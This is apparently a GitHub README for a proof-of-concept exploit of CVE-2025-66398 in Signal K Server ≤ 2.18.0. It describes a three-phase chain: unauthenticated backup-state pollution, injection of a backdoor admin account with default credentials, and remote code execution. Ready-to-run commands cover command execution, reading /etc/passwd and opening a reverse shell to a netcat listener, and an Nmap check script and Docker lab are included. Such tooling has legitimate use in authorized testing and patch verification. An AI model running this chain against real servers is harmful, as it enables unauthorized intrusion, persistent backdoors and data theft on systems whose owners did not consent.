





<h1 align="center">CVE-2025-66398 — Signal K Server RCE PoC</h1>

<p align="center">
    
    <a href="https://go.dev/">
      
    </a>
    <a href="https://www.python.org/">
      
    </a>
    <a href="https://nmap.org/">
      
    </a>
</p>

## 📜 Description

CVE-2025-66398 is a Signal K Server issue where an unauthenticated attacker can poison the server’s restore state via `/skServer/validateBackup`, then hijack config via `/skServer/restore` to inject a backdoor admin account and (optionally) achieve RCE by switching the security strategy to an attacker-controlled Node.js module.

**Affected versions:** Signal K Server ≤ 2.18.0

**Impact (high-level):** unauthenticated state pollution → backdoor admin injection → remote code execution (when a restore + restart occurs)

## ✨ Features

- **Vulnerability check** — Tests whether `/skServer/validateBackup` accepts unauthenticated uploads.
- **Nmap NSE script** — Drop-in `http-signalk-cve-2025-66398.nse` for use in network scans (check-only, no exploitation).
- **Interactive exploit flow** — Walks you through the 3 phases and prompts for credentials/paths.
- **Non-interactive mode** — Run the full chain with flags (check, command exec, read/write file, reverse shell).

## 🛠️ Installation

### Python

#### OSX/Linux
```bash
git clone https://github.com/joshuavanderpoll/cve-2025-66398.git
cd CVE-2025-66398
python3 -m venv .venv
source .venv/bin/activate
pip3 install -r requirements.txt
```

#### Windows
```bash
git clone https://github.com/joshuavanderpoll/cve-2025-66398.git
cd CVE-2025-66398
python3 -m venv .venv
.venv\Scripts\activate
pip3 install -r requirements.txt
```

### GoLang

```bash
git clone https://github.com/joshuavanderpoll/cve-2025-66398.git
cd CVE-2025-66398
go build -o exp cve-2025-66398.go
```

#### Install directly with Go
```bash
go install github.com/joshuavanderpoll/cve-2025-66398@latest
```

#### Run without installing
```bash
go run github.com/joshuavanderpoll/cve-2025-66398@latest -target http://127.0.0.1:8111
```

## ⚙️ Usage

This PoC has two modes:

- **Interactive** (default): guided prompts + a small menu.
- **Non-interactive**: pass flags like `-check`, `-command`, `-read-file`, etc. (Only recommend if first successful interactive mode)

### Help / options

```bash
python3 cve-2025-66398.py -h
# or GoLang release
./cve-2025-66398 -h
                ___ __ ___ ___      __   __ _______ ___ 
  ____ _____ __|_  )  \_  ) __|___ / /  / /|__ / _ ( _ )
 / _\ V / -_)___/ / () / /|__ \___/ _ \/ _ \|_ \_, / _ \
 \__|\_/\___|  /___\__/___|___/   \___/\___/___//_/\___/
                                                        
  https://github.com/joshuavanderpoll/cve-2025-66398

usage: exp.py [-h] [-target URL] [-useragent UA] [-timeout SEC] [-target-os OS] [-signalk-dir DIR] [-check] [-admin-user USER] [-admin-pass PASS] [-backdoor-user USER] [-backdoor-pass PASS] [-command CMD]
              [-read-file PATH] [-write-file CONTENT PATH] [-code CODE] [-shell] [-lhost HOST] [-lport PORT]

CVE-2025-66398 -- Signal K State Pollution -> Backdoor -> RCE

options:
  -h, --help            show this help message and exit
  -target URL           Base URL of the Signal K server
  -useragent UA         User-Agent header for all HTTP requests
  -timeout SEC          Request timeout in seconds (default: 10)
  -target-os OS         Target server OS for payload/path adaptation: linux (default) or windows
  -signalk-dir DIR      Override the Signal K data directory on the target (default: OS-dependent)
  -check                Test if the target is vulnerable without exploiting it
  -admin-user USER      Admin username for Phase 2 restore
  -admin-pass PASS      Admin password for Phase 2 restore
  -backdoor-user USER   Backdoor username to inject (default: backdoor)
  -backdoor-pass PASS   Backdoor password to inject (default: H4CK1nd3x!)
  -command CMD          Execute a command on the server (non-interactive)
  -read-file PATH       Read a remote file via RCE
  -write-file CONTENT PATH
                        Write CONTENT to PATH on the server via RCE
  -code CODE            Inject raw Node.js code as the security module
  -shell                Deploy a reverse shell (requires -lhost and -lport)
  -lhost HOST           Listener host for reverse shell
  -lport PORT           Listener port for reverse shell
```

### Quick check (safe)

```bash
python3 cve-2025-66398.py -target http://127.0.0.1:3000 -check
# or GoLang release
./cve-2025-66398 -target http://127.0.0.1:3000 -check
```


### Nmap NSE check
A standalone Nmap script is included that performs the same unauthenticated probe — no exploitation.

```bash
# Against a known Signal K port
nmap -p 3000 --script ./http-signalk-cve-2025-66398.nse <target>

# Install system-wide and run without path
sudo cp http-signalk-cve-2025-66398.nse $(nmap --datadir)/scripts/
sudo nmap --script-updatedb
nmap -p 3000 --script http-signalk-cve-2025-66398 <target>
```

Example output:
```
PORT     STATE SERVICE
9360/tcp open  unknown
| http-signalk-cve-2025-66398: 
|   state: VULNERABLE
|   title: Signal K Server Unauthenticated Backup Upload leading to RCE
|   IDs: CVE-2025-66398
|_  references: https://github.com/joshuavanderpoll/cve-2025-66398  |  https://www.cve.org/CVERecord?id=CVE-2025-66398
```

### Interactive exploitation (guided)

```bash
python3 cve-2025-66398.py -target http://127.0.0.1:3000
# or GoLang release
./cve-2025-66398 -target http://127.0.0.1:3000
```


The script will:

1. **Phase 1 — State Pollution:** upload a malicious `.backup` to `/skServer/validateBackup` (no auth)
2. **Phase 2 — Config Hijacking:** authenticate as an admin and trigger `/skServer/restore`
3. **Phase 3 — RCE:** upload a second backup that points the security strategy at a malicious module, trigger restore, restart, then run your command / shell

### Non-interactive examples

Run the full chain (Phases 1 → 3) and execute a command:

```bash
python3 cve-2025-66398.py -target http://127.0.0.1:3000 -admin-user <ADMIN_USER> -admin-pass <ADMIN_PASS> -command "id"
# or GoLang release
./cve-2025-66398 -target http://127.0.0.1:3000 -admin-user <ADMIN_USER> -admin-pass <ADMIN_PASS> -command "id"
```


Read a remote file (Phase 3):

```bash
python3 cve-2025-66398.py -target http://127.0.0.1:3000 -admin-user <ADMIN_USER> -admin-pass <ADMIN_PASS> -read-file /etc/passwd
# or GoLang release
./cve-2025-66398 -target http://127.0.0.1:3000 -admin-user <ADMIN_USER> -admin-pass <ADMIN_PASS> -read-file /etc/passwd
```


Reverse shell (Phase 3):

```bash
nc -lvnp 4444

python3 cve-2025-66398.py -target http://127.0.0.1:3000 -admin-user <ADMIN_USER> -admin-pass <ADMIN_PASS> -shell -lhost <YOUR_IP> -lport 4444
# or GoLang release
./cve-2025-66398 -target http://127.0.0.1:3000 -admin-user <ADMIN_USER> -admin-pass <ADMIN_PASS> -shell -lhost <YOUR_IP> -lport 4444
```


Notes:

- If you don’t pass `-admin-user/-admin-pass`, the script assumes the backdoor account is already active from a previous run.
- Default backdoor creds are `backdoor` / `H4CK1nd3x!` (override with `-backdoor-user` / `-backdoor-pass`).
- Phase 3 needs the Signal K data directory. The script will try to auto-detect it during Phase 2; if it can’t, pass `-signalk-dir <DIR>`.

## 🐋 Docker PoC

A self-contained Docker Compose environment with the vulnerable software for local testing.
Check [DOCKER.md](/docker/DOCKER.md) for more details

```bash
cd docker/
docker compose up -d
python3 ../cve-2025-66398.py -target http://127.0.0.1:9360 -check
python3 ../cve-2025-66398.py -target http://127.0.0.1:9360
```

## 🕵🏼 References

- [Signal K Server](https://github.com/SignalK/signalk-server)
- [NVD — CVE-2025-66398](https://nvd.nist.gov/vuln/detail/CVE-2025-66398)
- [HackIndex.io — CVE-2025-66398](https://hackindex.io/vulnerabilities/CVE-2025-66398)
  
## 📢 Disclaimer

This PoC is for educational and authorized security testing only. Don’t run it against systems you don’t own or have explicit permission to test.
